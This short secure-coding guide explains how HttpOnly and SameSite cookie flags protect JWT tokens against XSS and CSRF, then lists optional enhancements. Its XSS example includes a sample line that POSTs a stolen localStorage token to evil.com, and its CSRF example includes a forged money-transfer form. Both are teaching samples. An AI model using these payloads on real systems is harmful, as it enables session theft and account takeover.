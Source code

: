 ### **Understanding HTTP-Only Cookies**

- **What is it?** A cookie with the `HttpOnly` flag that cannot be accessed via JavaScript
- **Why use it?** Protects JWT tokens from XSS (Cross-Site Scripting) attacks
- **How it works?** Browser automatically sends it with requests, but JavaScript cannot read it

### **XSS Protection Example**

```javascript
// ❌ WITHOUT HTTP-Only Cookie (Vulnerable to XSS)
localStorage.setItem('token', jwt);
// Attacker's injected script can steal it:
fetch('http://evil.com', { method: 'POST', body: localStorage.getItem('token') });

// ✅ WITH HTTP-Only Cookie (Protected from XSS)
// Server sets cookie with HttpOnly flag
// Attacker's script cannot access it:
document.cookie; // Won't show authToken
// Cookie is still automatically sent with requests!
```

### **SameSite Protection Example**

```javascript
// ❌ WITHOUT SameSite (Vulnerable to CSRF)
// Attacker's site can trigger authenticated requests:
<form action="http://yoursite.com/api/transfer" method="POST">
  <input name="amount" value="10000">
  <input name="to" value="attacker-account">
</form>

// ✅ WITH SameSite=Strict (Protected from CSRF)
// Cookie: authToken=jwt; SameSite=Strict
// Browser won't send cookie for cross-site requests
```

---

## 🚀 Next Steps (Optional Enhancements)

1. **✅ Refresh Tokens** (for longer sessions)
   - Add refresh token endpoint
   - Store refresh token in HTTP-only cookie
   - Auto-refresh access token before expiry

2. **✅ Rate Limiting** (prevent brute force)
   - Install `express-rate-limit`
   - Limit login attempts per IP
   - Lock accounts after failed attempts

3. **✅ Email Verification** (for production)
   - Send verification email on registration
   - Verify email before allowing login
   - Add email verification endpoint
